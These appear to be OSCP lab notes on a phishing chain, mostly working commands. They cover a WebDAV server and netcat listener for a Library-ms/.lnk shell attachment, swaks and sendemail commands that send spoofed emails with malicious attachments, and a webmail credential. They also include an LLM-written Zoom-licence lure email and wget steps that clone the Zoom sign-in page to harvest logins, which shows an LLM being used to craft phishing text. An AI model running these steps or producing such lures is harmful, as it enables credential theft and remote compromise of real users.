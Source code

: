 ## Use `config.Library-ms` and `.lnk` file
Start the `webdav` server
```
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root .
Running without configuration file.
15:02:36.530 - WARNING : App wsgidav.mw.cors.Cors(None).is_disabled() returned True: skipping.
15:02:36.533 - INFO    : WsgiDAV/4.3.3 Python/3.12.6 Linux-6.11.2-amd64-x86_64-with-glibc2.40
15:02:36.533 - INFO    : Lock manager:      LockManager(LockStorageDict)
15:02:36.534 - INFO    : Property manager:  None
15:02:36.534 - INFO    : Domain controller: SimpleDomainController()
15:02:36.534 - INFO    : Registered DAV providers by route:
15:02:36.534 - INFO    :   - '/:dir_browser': FilesystemProvider for path '/usr/lib/python3/dist-packages/wsgidav/dir_browser/htdocs' (Read-Only) (anonymous)
15:02:36.534 - INFO    :   - '/': FilesystemProvider for path '/home/kali/OSCP/11/11.3/vmpgroup2' (Read-Write) (anonymous)
15:02:36.534 - WARNING : Basic authentication is enabled: It is highly recommended to enable SSL.
15:02:36.534 - WARNING : Share '/' will allow anonymous write access.
15:02:36.534 - WARNING : Share '/:dir_browser' will allow anonymous write access.
15:02:36.648 - INFO    : Running WsgiDAV/4.3.3 Cheroot/10.0.1 Python/3.12.6
15:02:36.648 - INFO    : Serving on http://0.0.0.0:80 ...
```
Start python server 
```
python3 -m http.server 80
```
Start a listener
```
nc -lvnp 443
```
Send a phishing email to target
```
swaks --server <SMTP_SERVER> -t <TARGET_EMAIL> --from <FAKE_SENDER_EMAIL> --header "Subject: <SUBJECT_LINE>" --body @<EMAIL_BODY_FILE> --attach @<ATTACHMENT_FILE> --suppress-data -ap

swaks --server 192.168.234.199 -t dave.wizard@supermagicorg.com --from test@supermagicorg.com --header "Subject: Staging Script" --body @body.txt --attach @config.Library-ms --suppress-data -ap

sendemail -f 'jonas@localhost' -t 'mailadmin@localhost' -s 192.168.223.140:25 -u 'Your spreadsheet' -m 'Here is your requested spreadsheet' -a Document.ods
```
Get shell when someone opens the mail

Login to the webmail
```
helpdesk@mail.corp.com:Helpdesk@Password2024
```
Enumerate the sent mails
```
"Hello Sales department, 

Hope you're knocking it out of the park this week! We're trying to redo our inventory of Zoom licenses as we seem to have a large number which aren't being used at the moment. Rather than having everyone reply to the email, in order to keep your Zoom license, please just ensure that you login to your account and schedule a meeting within the next two weeks. Any accounts which don't do this within the time frame will be transitioned to a free license. 

Thank you very much for your cooperation and apologies for the hassle!" 

Write another email in the same style as this, and include a reminder for employees to login to Zoom. Include a hyperlink that can be clicked and directs people to the appropriate page.  
```
Take the email as sample to an LLM, along with a prompt, to write an email in the same style
```
Subject: Reminder: Please Log In to Keep Your Zoom License!

Hello Sales department,

Just a quick reminder—hope everything’s going smoothly on your end! We’re still working on updating our Zoom license inventory and noticed that some accounts haven’t yet logged in to schedule a meeting. To make sure your account remains on a full license, please click here to log in and schedule a meeting within the next week.

If no meeting is scheduled by the deadline, any inactive accounts will be moved to a free license.

Thanks again for your cooperation, and sorry for the added task! Let us know if you have any questions.

Best regards,
[Your Company] Helpdesk Team
```

## Clone a Legitimate Website
```
wget -E -k -K -p -e robots=off -H -Dzoom.us -nd "https://zoom.us/signin#/login"
```
`-E`: Change file extension to match the MIME type of the downloaded file
`-k`: Convert all links in the document to point to local alternatives
`-K`: Save original file with `.orig`
`-p`: Download all the files necessary for viewing
`-e robots=off`: Ignore `robots.txt`
`-H`: Download from external hosts, limited to files on `zoom.us`
`-nd`: Save files in a flat directory structure in current working directory
Launch the website with `python3`
```
python3 -m http.server 80
```
Access the page (Note: `OWASP CSRF Guard error alert box`)
Search files in the directory for `OWASP` and `csrf_js`
```
grep "OWASP" *
grep "csrf_js" *

┌──(kali㉿kali)-[~/OSCP/13/new_content]
└─$ grep "OWASP" *
csrf_js: * The OWASP CSRFGuard Project, BSD License
csrf_js: *    3. Neither the name of OWASP nor the names of its contributors may be used
csrf_js:                    this.setRequestHeader("X-Requested-With", "OWASP CSRFGuard Project");
csrf_js:        alert("OWASP CSRFGuard JavaScript was included from within an unauthorized domain!");

┌──(kali㉿kali)-[~/OSCP/13/new_content]
└─$ grep "csrf_js" *
csrf_js:        xhr.open("POST", "/csrf_js"+(typeof(resourceAccountIdRoutingURl)!="undefined"?"?"+resourceAccountIdRoutingURl:""), false);
csrf_js:            xhr.open("POST", "/csrf_js"+(typeof(resourceAccountIdRoutingURl)!="undefined"?"?"+resourceAccountIdRoutingURl:""), false);
signin.html:<script nonce="lNBoeXlATvmgxqcsDz-4OA" src="csrf_js"></script>
signin.orig:<script nonce="lNBoeXlATvmgxqcsDz-4OA" src="/csrf_js"></script>

```
Delete the lines and Check the cloned `website` for any problems
Move the page to a proper web server for better support of POST requests
```
mv -f * /var/www/html
systemctl start apache2
cd /var/www/html
```
To make a replica of the login page
- Figure out how the login page works
- Use LLM to write a form and overwrite the current source code
- Make a copy of the current page and compare to the original
Send the phishing email to the targets and wait for an event.
